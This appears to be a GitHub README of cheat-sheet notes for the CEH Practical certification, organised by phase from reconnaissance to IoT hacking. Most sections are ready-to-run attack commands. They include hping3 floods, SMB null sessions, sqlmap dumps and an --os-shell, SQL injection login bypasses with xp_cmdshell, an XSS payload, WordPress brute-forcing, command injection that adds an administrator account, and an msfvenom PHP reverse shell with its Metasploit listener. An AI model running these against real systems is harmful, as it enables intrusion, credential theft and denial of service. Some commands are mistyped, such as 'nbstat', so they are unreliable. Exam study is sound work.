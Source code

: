 ## Footprinting and Reconnaissance
<details>
    <summary> Reconnasiance/Footprinting</summary>
<details>
    <summary> 1) Windows CLI tools </summary>

```bash
$ ping <ip>
 or 
$ ping www.domain.com
```
````console
$ ping <host-ip> -f -l 1300
````
```bash
$ nslookup <domain.com>
```
```bash
$ tracert <doamin>

$ traceroute <host-ip>
```
</details>


### 2)Edit,Debug and monitor
<details>
    <summary> 2)Firebug </summary>
    
- Firebug extension Integrated with Firefox
  
</details>

### 3)Mirroring website:
<details>
    <summary> Mirroring</summary>
    
- Windows: HTTrack

- Linux: wget
```bash
 $ wget <url-of-website>
``` 
#### Note:- check wget -h for options

</details>

### 4)Advance route tracing 
#### Tool: Path Analyzer Pro

<details>
    <summary> 5)Information Gathering Using Metasploit</summary>

#### Extract accurate information about a network using Metasploit Framework.

```bash
$ service postgresql start
```
```bash
In msf type 
$db_status
```
If error then exit and type below commands
- To initialize database
```
$ msfdb init
```
```
$ service postgresql start
```
relaunch metasploit Framework
```
$ msfconsole
$ db_status
$ nmap -Pn -sS -A -oX <output_file> <subnet(xx.xx.xx.x/24)>
```
you can use different options and also remove some options
```
$ hosts
```
to get host information

```
$ use auxilliary/scanner/smb/smb_version
or 
$ use /scanner/smb/smb_version
$ show options
$ set RHOSTS xx.xx.xx.8-16
$ set THREADS 1000
$ run 
```
- Now you can see the os_flavor 
- Hence Extracted information about network using metasploit
</details>
</details>

## Scanning Networks
<details>
    <summary>Scanning Networks</summary
- Port Scanning using Hping3:

```bash
hping3 --scan 1-3000 -S 10.10.10.10
```
--scan parameter defines the port range to scan and –S represents SYN flag.

- Pinging the target using HPing3:
```
hping3 -c 3 10.10.10.10
```
-c 3 means that we only want to send three packets to the target machine.

- UDP Packet Crafting
```
hping3 10.10.10.10 --udp --rand-source --data 500
```
- TCP SYN request
```
hping3 -S 10.10.10.10 -p 80 -c 5
```
-S will perform TCP SYN request on the target machine, -p will pass the traffic through which port is assigned, and -c is the count of the packets sent to the Target machine.

- HPing flood
```
hping3 10.10.10.10 --flood
``` 
</details>


## Enumeration
<details>
    <summary>Enumeration</summary>

 ### 1) NetBios Enumeration
#### Tool: Global Network Inventory
- Audit Scan Mode >> Select IP range >> Authentication setting >> connect as windows 12(victim) server using credentials that is currently logged on
- The Scan Summary tab displays a brief summary of machine that has been scanned. It will shows you the Machine name, MAC Address, OS installed, and etc.
- User groups,Services,Installed Softwares etc can be seen in the scan summmary.
  
### 2) Network Resources
#### Tool: Advanced IP Scanner  
- Enumerate network resources using Advanced IP Scanner.
- Perform a system ard network scan, Enumerate user accounts, Execute remotepenetration, Gather information about local network
- Input range of IP
- Now you have the IP address, Name, MAC address, and Manufacturer information of the victim machine.

### 3) Network enum using superscan
#### Tool: Superscan
- Lists of computers that belong to a domain
- Lists Of shares on the individual hosts on the network
- Policies and passwords
- Enter hostname/IP/URL >> select Enumeration type >> and see the scan result for required information.

### 4) Resurces in Local machine
#### Tool: Hyena
- Click '+' node of local workstation to expand section.
- select different nodes to view their information
- Users, Services, User Rights, Scheduled jobs

 ### 5) SMB ENumeration
#### Tools: nbstat,nmap

- In windows 12
```bash
nmap -O <win-12-ip>
```

```bash
nbstat -A xx.xx.xx.xx  //perform nbstat scan on port 139 in cmd
net use
net use \\xx.xx.xx.xx\e ""\user:""
net use \\xx.xx.xx.16\e""/user:""  //create null session 
// xx.xx.xx.16 is windows server 16
```
- disconnect drive Z
-this creates a null session 
- confirm by using
```bash
net use // session with name e would have been created
```


##### Note: Your first target is the computer with a Windows OS on which you can see ports 139 and 445 open. Remember, this usually works only against Windows but may partially succeed if other OSs have these ports open. There may be more than one system with NetBIOS open. You see that ports 135. 139.445. etc. are open and port 139 is using NetBIOS.

  ### 6) Some other tools
#### Tools:
- NetBIOS Enumerator
- SoftPerfect Network Scanner

</details>

## Vulberability Analysis
<details>
    <summary>Vulnerability Analysis</summary>

### Nessus Vulnerability Scanner
-
```bash

```
### Nikto
-
```bash
nikto -h url -Cgidirs all
```
</details>

## Android Hacking
<details>
    <summary>ADB</summary>
    
```bash
netdiscover -r xx.xx.xx.xx/24
nmap -O xx.xx.xx.4
apt-get update
apt-get install adb -y
```

- Use
```bash
adb devices -l
adb connect xx.xx.xx.4:5555 //5555 is port of android discovered in 'nmap -O' scan
adb shell // 'To get shell access'
```
- You can run commands like

```bash
pwd
cd
ls
echo
```
#### Download a File from Android using ADB tool
```bash
adb pull /sdcard/log.txt C:
adb pull sdcard/log. txt /home/murphy/Desktop
```
</details>

## SQL Injection

<details>
    <summary>SQL Injection</summary>
    
- ### SQLMAP Extract DBS
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs
```
- ### Extract Tables
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables
```
- ### Extract Columns
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns
```
- ### Dump Data
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump
```
- ### OS Shell to execute commands
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell
```
- ### Login bypass
```bash
blah' or 1=1 --
Insert data into DB from login
blah';insert into login values ('john','apple123');
Create database from login
blah';create database mydatabase;
Execute cmd from login
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
```
</details>

# 8) Sniffing
<details>
    <summary> Wireshark</summary>
      - Some useful wireshark command 
```
filter : http
option --> find packet->> select string --> pwd  // to find pwd string in packets
```
ip.addr == x.x.x.x

Sets a filter for any packet that has x.x.x.x as the source or destination IP address. This is very useful if, let’s say, you want to analyze specific traffic. Applying this filter helps you analyze outgoing traffic to see which one matches the IP or source you’re looking for. 
You can also choose to use ip.dst == x.x.x.x to filter only by destination or ip.src == x.x.x.x to filter by source.
 
ip.addr == x.x.x.x && ip.addr == x.x.x.x 

(or ip.src == xxxx && ip.dst == xxxx - for a destination)

Sets a conversation filter between two specific IP addresses. This one helps you check the data between two specific hosts or networks. It helps you when you are looking for specific data, so you don’t have to go through others that don’t interest you.

 

http or dns

Sets a filter to display all http and dns protocols. It lets you narrow down to the exact protocol you need. So, if you need to track down an odd FTP traffic, then you just have to set it for ‘ftp’. Want to find out why some websites don’t appear? You just have to set it to ‘dns’.

 

tcp.port==xxx

Sets filters for any TCP packet with a specific source or destination port. Sometimes is just useful and less time consuming to look only at the traffic that goes into or out of a specific port.

 

tcp.flags.reset==1

Sets filters to display all TCP resets. All packets have a TCP, if this is set to 1, it tells the receiving computer that it should at once stop using that connection. So, this filter is a powerful one, being that a TCP reset kills a TCP connection immediately.

 

tcp contains xxx

It’s a filter that displays all TCP packets that contain a certain term (instead of xxx, use what term you’re looking for). For example, if you are looking for a specific term appearing in the packet, this filter is what you need.

 
Follows a tcp stream.
```
tcp.stream eq X
```

- Filters by sequence number.
```
tcp.seq == x
```
 
- Important for troubleshooting, this filter detects push events.
``` 
tcp.flags.push == 1
```

- This one filters all HTTP GET and POST requests. It can show the most accessed webpages.
````
 http.request
 ````

- Designed to filter out certain types of protocols, it masks out arp, icmp, dns, or other protocols you think are not useful. This will allow you to focus of what traffic interests you.
```
 !(arp or icmp or dns)
 ```

- It sets a filter for certain HEX values at any offset.
```
udp contains xx:xx:xx
```


 
- Indicates which dns requests couldn't be correctly resolved.
 ``` dns.flags.rcode != 0 ```

</details>

</details>


## Web Application Hacking
<details>
    <summary> Web Hacking</summary>
    
### 1) Parameter Tampering
    - Changing ?id=1 or 2 or 3 to switch user.
### 2) XSS
      - In cotactact us page i the commrent section post the following script `<script>alert("You are Hacked")</script>`

### 3) WPScan
- SkipFish : Active Recon for Websites 
  
```console
skipfish -o 202 http://192.168.1.202/wordpress
```

- Wordpress Site Login BruteForce [Step-By-Step](https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/)
  
```shell
# Wordpress site only Users Enumeration
wpscan --url http://example.com/ceh --enumerate u 

# Direct crack if we have user/password details

wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt

# Using Metaspoilt
msfdb init && msfconsole
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100
msf auxiliary(wordpress_login_enum) > set targeturi /wordpress
msf auxiliary(wordpress_login_enum) > set user_file user.txt
msf auxiliary(wordpress_login_enum) > set pass_file pass.txt
msf auxiliary(wordpress_login_enum) > exploit
    
```
### 4) RCE
- In DVWA application to ping.
```bash
| hostname  //name of target machine
| whoami   // user,groups,privileges
| tasklist  //lists running process
| dir C:\
| net user
| net user Test /Add
| net user 
| net user Test //displays info about user Test
| net localgroup Administrators Test /Add
| net user Test //now it's in Administrator

```
- To launch Remote Desktop Connection, navigate to ```Start--> Windows Accessories--> Remote Desktop Connection```

### 5)Web Application Framework
<details>
<summary> Auditing </summary>

#### Tools: Vega(Linux)
- Enter URL --> select Injection and Response modules --> click yes --> check Scan summary


###  WVS 
#### Tool: Acunetics WVS

</details>

### 6) File Upload Vulnerbility
-  ``` msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.11 lport=4444 -f raw ```  
- This command will generate a php raw payload.
- copy the payload and make a .php file
-  ```msfconsole``` . Now you have to establish a meterpreter session with your victim
```
Type use multi/handler and hit Enter.
Type set payload
php/meterpreter/reverse_tcp and hit
Enter.
Type set lhost 10.10.10.11 and hit Enter.
set Iport 4444
and hit Enter.
- vist the uri where the file is to execute on web browser
```
</details>

# Social Engineering
<details>
    <summary>Social</summary>

### Tool: Social Engineering Toolkit(linux)

</details>

# DOS
<details>
    <summary>
        DoS 
    </summary>
- Spoof IP
- SYN Flooding
```
use auxiliary/dos/tcp/synflood
show options
SYN flooding on port 4444
set timeout 20000 //rest as shown in option
```
   

# Session Hijacking
<details>
    <summary>Session Hijacking</summary>


</details>


# Host DIscovery
<details>
    <summary>Hsot Discover</summary>
```
ARP Ping Scan:           nmap -sn -PR <Target IP Address>    ARP request probe
UDP Ping Scan:           nmap -sn -PU <Target IP Address>    UDP request
ICMP ECHO Ping Scan:     nmap -sn -PE <Target IP Address>    ICMP LCBO request

</details>

## IOT Hacking
<details>
    <summary>IOT</summary>
    
### Tools:
- Shodan.io

- CRITIFENCE
```
 CRITIFENCE is an online database that stores default passwords of critical infrastructure, SCADA, [CS, and 110T Attackers can use this tool to discover
the default credentials of an OT system It lists information such as product code, vendor, device type and its default username and password
  ```
- Nmap
![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/dbe2d60e-4af9-4376-b4ed-baa7e21dee5d) // nmap different types of scans.

- Scada
    - SCADA Shutdown Tool is an ICS testing and automation tool that allows attackers to fuzz, scan, and run remote commands on ICS/SCADA networks and controllers
    - Attackers use this tool to examine and enumerate slave controllers and SCADA security systems as well as read register values of the controller and rewrite register data.
      
- #### Other Tools
      - Nessus
      - wireshark
</details>
